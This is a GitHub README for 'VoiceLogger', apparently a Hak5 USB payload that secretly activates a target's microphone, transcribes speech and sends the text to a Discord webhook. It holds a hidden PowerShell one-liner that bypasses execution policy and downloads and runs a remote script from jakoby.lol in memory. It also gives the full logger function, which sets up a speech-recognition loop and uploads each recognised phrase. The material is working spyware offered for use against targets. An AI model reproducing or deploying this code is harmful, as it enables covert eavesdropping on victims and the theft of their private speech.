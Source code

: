 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# VoiceLogger

## Description

This payload activates your target's microphone, converts their speech to text, and exfils it to Discord 
with the optional functionality of incorporating voice activated payloads.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your Discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';irm jakoby.lol/voiceLogger | iex
```

### The Function

- The voiceLogger function leverages the System.Speech namespace to create a continuous speech-to-text logger. 
- It initializes a speech recognition engine, loads a dictation grammar, and sets the input to the default audio device. 
- The script then enters an infinite loop where it listens for speech input and recognizes the text. 
- The recognized text is written to the output and saved to a temporary log file. 
- The log file content is then uploaded using the DC-Upload function. 
- Additionally, the script checks for specific voice commands using a switch statement with regex patterns: if the word "notepad" is detected, it launches Notepad, 
- and if the word "exit" is detected, it breaks the loop and stops the voice logger. 
- Once the loop is terminated, the log file's content is cleared.

```powershell
function voiceLogger {

    Add-Type -AssemblyName System.Speech
    $recognizer = New-Object System.Speech.Recognition.SpeechRecognitionEngine
    $grammar = New-Object System.Speech.Recognition.DictationGrammar
    $recognizer.LoadGrammar($grammar)
    $recognizer.SetInputToDefaultAudioDevice()

    while ($true) {
        $result = $recognizer.Recognize()
        if ($result) {
            $results = $result.Text
            Write-Output $results
            $log = "$env:tmp/VoiceLog.txt"
            echo $results > $log
            $text = get-content $log -raw
            DC-Upload $text

            # Use a switch statement with the $results variable
            switch -regex ($results) {
                '\bnotepad\b' {saps notepad}
                '\bexit\b' {exit}
            }
        }
    }
    Clear-Content -Path $log
}
```

```mermaid
graph TB;
  A[Start voiceLogger] --> B[Start Listening]
  B --> C{Recognized text?}
  C -->|Yes| D[Write to console]
  D --> E[Save to file]
  E --> F[Send to Discord]
  F --> G{Keyword recognized?}
  G -->|'note'| H[Open Notepad]
  G -->|'exit'| I[Exit function]
  G -->|No keyword| B
  C -->|No| B
  I --> J[Clear Log]
  J --> K[End voiceLogger]
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributor's names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>
